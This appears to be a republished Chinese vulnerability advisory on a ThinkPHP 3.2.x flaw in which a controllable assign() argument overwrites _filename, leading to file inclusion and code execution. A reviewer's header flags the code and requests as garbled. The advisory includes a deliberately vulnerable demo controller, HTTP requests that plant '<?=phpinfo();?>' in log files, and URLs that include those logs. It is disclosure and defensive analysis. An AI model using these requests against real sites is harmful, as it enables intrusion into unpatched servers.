## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：3.2/3.2.1 filename与3.2.2/3.2.3 _filename不同；需assign首参可控、模板存在及已植入文件/日志

代码与实验材料：324行全读，WindowsPHP5.6.27，debug日志差异、上传文件、源码调用链；HTTP/代码丢换行

来源证据范围：默安玄甲署名及微信原文，修复官方具体链接缺

- **结论使用边界（1）**：FOFA字段抽成普通标题；依据：fofa=分布情况，不是查询。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：资产数量不能等同易受攻击；依据：139809是ThinkPHP服务而非满足3.2+assign可控+文件条件的漏洞资产；无统计日期/查询语句。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（3）**：代码请求损坏；依据：PHP&lt;?phpnamespace及转义大括号，HTTP/1.1Host同行；参数名词表粘连。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **结论使用边界（4）**：缓冲区结论过度；依据：fetch输出进入缓冲不意味着必须exit/die，取决于调用方是否返回/显示；应限定演示方式。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 【漏洞通报】ThinkPHP3-2-x RCE 漏洞通报

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ulRP1slUV4y2Vaghp4So1A)

### 

漏洞概述

近日，默安玄甲实验室发现网络上出现针对 ThinkPHP3.2 的远程代码执行漏洞。该漏洞是在受影响的版本中，业务代码中如果模板赋值方法 assign 的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。


ThinkPHP 是一个开源免费的，快速、简单的面向对象的轻量级 PHP 开发框架，是为了敏捷 WEB 应用开发和简化企业应用开发而诞生的。Thinkphp 在国内拥有庞大的用户群体，其中不乏关键基础设施用户。

危害等级

> 严重
> 
>   

### 

分布情况

> fofa 分布情况：
> 
>   



  

目前 FOFA 系统最新数据（一年内数据）显示中国最多，国外的基本是云主机部署。中国范围内共有 139809 个使用 thinkphp 框架的服务。其中部署于云主机的服务最多，共有 96172 个。山东第二，共有 4,638 个，广东第三，共有 4,560 个，上海第四，共有 2,853 个，江苏第五，共有 1,585 台。

> gitee 分布情况:
> 
>   



  

> github 分布情况：
> 
>   

目前 Github 最新数据显示全部仓库内共有 331 个，相关代码行数 244,863 个。



  

### 

原理分析

#### 0x01 攻击方式：

> 标题：ThinkPHP3.2.x_assign 方法第一个变量可控 => 变量覆盖 => 任意文件包含 =>RCE
> 
>   
> 
> 作者：北门 - 王境泽 @玄甲实验室  
> 审稿：梦想小镇 - 晨星 @玄甲实验室
> 
>   
> 
> 攻击方式：远程  
> 漏洞危害：严重  
> 攻击 url: http://x.x.x.x/index.php?m=Home&c=Index&a=index&value[_filename]=.\Application\Runtime\Logs\Home\21_06_30.log
> 
>   
> 
> 标签：_ThinkPHP3.2.3_ _RCE_ _变量覆盖_ _文件包含_ _代码执行_
> 
>   

#### 0x02 利用条件：

在 ThinkPHP3.2.3 框架的程序中，如果要在模板中输出变量，需要在控制器中把变量传递给模板，系统提供了 assign 方法对模板变量赋值，本漏洞的利用条件为 assign 方法的第一个变量可控。

下面是漏洞的 demo 代码：



```
<?phpnamespace Home\Controller;use Think\Controller;class IndexController extends Controller {    public function index($value=''){        $this->assign($value);        $this->display();    \}\}
```

#### demo 代码说明：

如果需要测试请把 demo 代码放入对应位置, 代码位置：\Application\Home\Controller\IndexController.class.php

因为程序要进入模板渲染方法方法中，所以需要创建对应的模板文件，内容随意，模板文件位置：

> \Application\Home\View\Index\index.html
> 
>   

这里需要说明，模板渲染方法 (display,fetch,show) 都可以；这里 fetch 会有一些区别，因为 fetch 程序逻辑中会使用 ob_start()打开缓冲区，使得 PHP 代码的数据块和 echo()输出都会进入缓冲区而不会立刻输出，所以构造 fetch 方法对应的攻击代码想要输出的话，需要在攻击代码末尾带上 exit()或 die();

#### 漏洞攻击：

测试环境：

> ThinkPHP3.2.3 完整版 Phpstudy2016 PHP-5.6.27 Apache Windows10
> 
>   

debug 模式开启或不开启有一点区别，但是都可以。

> 1.debug 模式关闭：
> 
>   

写入攻击代码到日志中。错误请求系统报错：



  

请求数据包：

```
GET /index.php?m=--><?=phpinfo();?> HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-GB,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的 log 文件路径，ThinkPHP 的日志路径和日期相关）：

> \Application\Runtime\Logs\Common\21_06_30.log
> 
>   

日志文件内容：



> 构造攻击请求：  
> http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_06_30.log
> 
>   



> 2.debug 模式开启：
> 
>   

```
上面的错误请求日志方式同样可用。另外debug模式开启，正确请求的日志也会被记录的到日志中，但日志路径不一样。
```

请求数据包：

```
GET /index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?> HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-GB,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的 log 文件路径）：

> \Application\Runtime\Logs\Home\21_06_30.log
> 
>   

> 构造攻击请求：http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/21_06_30.log
> 
>   



> 3. 寻找程序上传入口，上传文件
> 
>   

这种方式最可靠，上传具有恶意代码的任何文件到服务器上，直接包含其文件相对或绝对路径即可。

> http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./test.txt
> 
>   

#### 0x03 代码分析

程序执行流程：



1. 功能代码中的 assign 方法中第一个变量为可控变量：

**代码位置：\Application\Home\Controller\IndexController.class.php**



  

2. 可控变量进入 assign 方法赋值给 $this→tVar 变量：

**代码位置：\ThinkPHP\Library\Think\View.class.php**



3. 赋值结束后进入 display 方法中，display 方法开始解析并获取模板文件内容，此时模板文件路径和内容为空：

**代码位置：\ThinkPHP\Library\Think\View.class.php**



  

4. 程序进入 fetch 方法中，传入的参数为空，程序会去根据配置获取默认的模板文件位置（./Application/Home/View/Index/index.html）。之后，系统配置的默认模板引擎为 think，所以程序进入 else 分支，获取 $this→tVar 变量值赋值给 $params，之后进入 Hook::listen 方法中。

**代码位置：\ThinkPHP\Library\Think\View.class.php**



  

5.listen 方法处理后，进入 exec 方法中：

**代码位置：\ThinkPHP\Library\Think\Hook.class.php**



  

6. 进入 exec 方法中，处理后调用 Behavior\ParseTemplateBehavior 类中的 run 方法处理 $params 这个带有日志文件路径的值。

**代码位置：\ThinkPHP\Library\Think\Hook.class.php**



  

7. 程序进入 run 方法中，一系列判断后，进入 else 分支，调用 Think\Template 类中的 fetch 方法对变量 $_data（为带有日志文件路径的变量值）进行处理。

**代码位置：\ThinkPHP\Library\Behavior\ParseTemplateBehavior.class.php**



  

8. 进入 Think\Template 类中的 fetch 方法，获取缓存文件路径后，进入 Storage 的 load 方法中。

**代码位置：\ThinkPHP\Library\Think\Template.class.php**



  

9. 跟进到 Storage 的 load 方法中，$_filename 为之前获取的缓存文件路径，$var 则为之前带有_filename = 日志文件路径的数组，$vars 不为空则使用 extract 方法的 EXTR_OVERWRITE 默认描述对变量值进行覆盖，之后 include 该日志文件路径，造成文件包含。

**代码位置：\ThinkPHP\Library\Think\Storage\Driver\File.class.php**

